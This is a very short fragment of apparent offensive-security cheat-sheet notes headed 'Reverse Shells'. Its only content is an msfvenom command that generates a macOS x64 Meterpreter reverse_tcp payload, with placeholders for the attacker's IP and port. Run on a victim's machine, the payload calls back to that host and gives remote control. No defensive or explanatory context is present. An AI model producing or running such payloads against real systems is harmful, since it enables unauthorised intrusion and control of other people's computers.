 # Reverse Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f macho -o met-x64`